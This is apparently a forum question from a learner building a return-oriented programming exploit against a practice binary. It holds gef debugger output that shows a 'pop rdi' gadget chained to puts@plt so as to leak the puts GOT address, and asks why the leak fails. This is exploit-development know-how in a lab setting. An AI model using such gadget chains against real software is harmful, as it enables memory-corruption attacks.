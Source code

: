 Can you tell what I'm doing wrong to prevent the library values from printing properly?


And here's more debugging data if it helps:
Here's what everything looks like at that first `ret` gadget:
We can see the pop rdi gadget at the top of the stack and in the upcoming instructions
```
gef➤  $ break *0x4004a9
Breakpoint 2 at 0x4004a9
gef➤  $ c
Continuing.
Breakpoint 2, 0x00000000004004a9 in _init ()

registers ────
$rax   : 0x00007fffffffdd70  →  0x6161616261616161 ("aaaabaaa"?)
$rbx   : 0x00007fffffffdea8  →  0x00007fffffffe21e  →  "/home/kali/Desktop/6-Week/ROP-Pop-Pop/rop"
$rcx   : 0x00007ffff7f9eaa0  →  0x00000000fbad2088
$rdx   : 0x0               
$rsp   : 0x00007fffffffdda0  →  0x00000000004006b3  →  <__libc_csu_init+99> pop rdi
$rbp   : 0x6161616a61616169 ("iaaajaaa"?)
$rsi   : 0x00000000006022a1  →  0x6361616162616161 ("aaabaaac"?)
$rdi   : 0x00007ffff7fa0a40  →  0x0000000000000000
$rip   : 0x00000000004004a9  →  <_init+25> ret 
$r8    : 0x00000000006022e9  →  0x0000000000000000
$r9    : 0x0               
$r10   : 0x1000            
$r11   : 0x246             
$r12   : 0x0               
$r13   : 0x00007fffffffdeb8  →  0x00007fffffffe248  →  "SHELL=/usr/bin/zsh"
$r14   : 0x0               
$r15   : 0x00007ffff7ffd000  →  0x00007ffff7ffe2d0  →  0x0000000000000000

stack ────
0x00007fffffffdda0│+0x0000: 0x00000000004006b3  →  <__libc_csu_init+99> pop rdi     ← $rsp
0x00007fffffffdda8│+0x0008: 0x0000000000601018  →  0x00007ffff7e40b00  →  <puts+0> push r14
0x00007fffffffddb0│+0x0010: 0x00000000004004c0  →  <puts@plt+0> jmp QWORD PTR [rip+0x200b52]        # 0x601018 <puts@got.plt>
0x00007fffffffddb8│+0x0018: 0x00007fffffffde00  →  0x0000000000000000

code:x86:64 ────
     0x40049e <_init+14>       je     0x4004a5 <_init+21>
     0x4004a0 <_init+16>       call   0x4004e0 <__gmon_start__@plt>
     0x4004a5 <_init+21>       add    rsp, 0x8
●→   0x4004a9 <_init+25>       ret    
   ↳    0x4006b3 <__libc_csu_init+99> pop    rdi
        0x4006b4 <__libc_csu_init+100> ret    
```

And here is what everything looks like right before the `pop rdi` gadget returns:
The next item on the stack is the call to puts:
```
gef➤  $ break *0x4006b4
Breakpoint 3 at 0x4006b4
gef➤  $ c
Continuing.

Breakpoint 3, 0x00000000004006b4 in __libc_csu_init ()
registers ────
$rax   : 0x00007fffffffdd70  →  0x6161616261616161 ("aaaabaaa"?)
$rbx   : 0x00007fffffffdea8  →  0x00007fffffffe21e  →  "/home/kali/Desktop/6-Week/ROP-Pop-Pop/rop"
$rcx   : 0x00007ffff7f9eaa0  →  0x00000000fbad2088
$rdx   : 0x0               
$rsp   : 0x00007fffffffddb0  →  0x00000000004004c0  →  <puts@plt+0> jmp QWORD PTR [rip+0x200b52]        # 0x601018 <puts@got.plt>
$rbp   : 0x6161616a61616169 ("iaaajaaa"?)
```